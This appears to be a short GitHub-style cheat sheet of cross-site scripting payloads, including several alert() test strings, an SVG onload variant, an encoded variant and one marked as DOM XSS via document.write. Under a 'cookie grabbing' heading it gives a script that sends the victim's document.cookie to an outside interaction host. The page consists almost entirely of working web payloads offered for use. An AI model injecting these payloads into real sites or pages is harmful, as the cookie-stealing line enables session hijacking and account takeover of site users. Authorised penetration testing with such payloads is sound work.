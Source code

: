 #### For testing.
```js
<script>alert(1)</script>
<svg/ onload=alert(123)//
">cyborg71<script>alert(1337)</script> >> DOM XSS in document.write sink using source location.search
<script onclick="alert(1)">
xss&lt;script&gt;alert&#40;1337&#41;&lt;&#47;script&gt;
```
#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```

